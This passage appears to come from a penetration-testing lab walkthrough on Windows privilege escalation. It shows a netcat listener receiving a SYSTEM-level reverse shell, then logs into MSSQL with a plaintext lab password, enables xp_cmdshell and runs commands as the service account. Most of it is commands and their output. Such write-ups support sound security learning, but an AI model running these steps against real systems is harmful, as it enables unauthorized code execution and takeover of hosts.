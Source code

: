 2) Catching Reverse Shell as SYSTEM

```
nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system
```

## LAB

1) Connecting with MSSQLClient.py

```
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
Str0ng_P@ssw0rd!
```

2) Enabling xp_cmdshell

```
enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.


```

3) Confirming Access

```
xp_cmdshell whoami

output                          
-----------------------------   
nt service\mssql$sqlexpress01   

NULL                            



```

4) Checking Account Privileges
